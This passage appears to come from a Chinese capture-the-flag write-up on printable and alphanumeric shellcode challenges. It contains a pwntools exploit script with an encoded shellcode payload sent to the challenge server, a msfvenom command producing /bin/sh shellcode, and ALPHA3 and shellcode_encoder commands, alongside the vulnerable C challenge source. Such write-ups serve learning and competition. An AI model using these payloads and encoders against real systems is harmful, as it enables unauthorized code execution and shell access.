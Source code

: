 随后使用 ALPHA3 进行转化：

```shell
$ py -2 ALPHA3.py x86 ascii uppercase eax --input="shellcode.bin"
```

得到的结果就是新的 payload。

```python
from pwn import *

context.log_level = 'DEBUG'

#p=process('./chall2')
p = remote('202.38.93.241', 10002)

p.recvuntil(':')
p.sendline('token') # token

p.send('PYVTX10X41PZ41H4A4I1TA71TADVTZ32PZNBFZDQC02DQD0D13DJE2O0Z2G7O1E7M04KO1P0S2L0Y3T3CKL0J0N000Q5A1W66MN0Y0X021U9J622A0H1Y0K3A7O5I3A114CKO0J1Y4Z5F06')

p.interactive()
```

看到 flag 后发现，预期解是利用 `msfvenom` 生成 `shellcode`：

```shell
$ msfvenom -a x86 --platform linux -p linux/x86/exec CMD="/bin/sh" -e x86/alpha_upper BufferRegister=eax
```

### 3

```c
// gcc -m64 -z execstack -fPIE -pie -z now chall3.c -o chall3
int main() {
    char buf[0x400];
    int n, i;
    n = read(0, buf, 0x400);
    if (n <= 0) return 0;
    for (i = 0; i < n; i++) {
        if(buf[i] <32 || buf[i] > 126) return 0;
    }
    ((void(*)(void))buf)();
}
```

本题的限制是 `shellcode` 由可打印字符构成，且基于 x64 平台。这个似乎靠 `msfvenom` 就不行了，但是可以换个工具，用 [shellcode_encoder](https://github.com/ecx86/shellcode_encoder)：

```shell
$ python2 main.py shellcode.bin rax+29
```

即可生成 payload，替换第二题的 payload 即可。注意 `rax+29` 指 shellcode 开始执行的位置。
